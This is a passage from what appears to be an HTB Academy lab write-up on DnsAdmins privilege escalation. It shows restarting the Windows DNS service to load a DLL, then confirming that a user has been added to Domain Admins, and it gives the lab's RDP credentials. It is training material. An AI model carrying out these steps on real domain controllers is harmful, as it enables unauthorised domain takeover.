 ### Service Restart Sequence

#### Stop DNS Service
```cmd
# Stop DNS service
sc stop dns

# Expected output:
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
```

#### Start DNS Service
```cmd
# Start DNS service (triggers DLL loading)
sc start dns

# Expected output:
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        PID                : 6960
```

### Verify Privilege Escalation
```cmd
# Check if user was added to Domain Admins
net group "Domain Admins" /dom

# Expected result:
Group name     Domain Admins
Comment        Designated administrators of the domain

Members
-------------------------------------------------------------------------------
Administrator            netadm
```

## 🎯 HTB Academy Lab Solution

### Lab Environment
- **Credentials**: `netadm:HTB_@cademy_stdnt!`
- **Access Method**: RDP
- **Objective**: Leverage DnsAdmins membership to escalate privileges and retrieve flag

### Complete Step-by-Step Walkthrough
